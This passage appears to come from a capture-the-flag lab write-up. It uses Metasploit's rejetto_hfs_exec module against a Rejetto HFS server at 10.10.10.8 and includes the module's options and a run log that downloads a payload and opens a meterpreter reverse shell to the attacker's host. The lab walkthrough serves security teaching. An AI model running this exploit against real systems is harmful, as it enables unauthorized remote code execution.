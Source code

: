 We found an exploit from 2014 that would get us RCE. Let's try that.

```console
msf6 > use 0
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.8       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

> I set the RHOSTS and LHOST parameters via the `setg` method previously, i.e. `setg rhosts 10.10.10.8` and `setg lhost tun0`, respectively.
{: .prompt-info}

```console
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Using URL: http://10.10.16.3:8080/FrhxeEEi0gzpT
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /FrhxeEEi0gzpT
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\namCuLOXkD.vbs, unknown result
[*] Meterpreter session 3 opened (10.10.16.3:4444 -> 10.10.10.8:49174) at 2023-12-23 16:29:32 -0500
[*] Server stopped.

```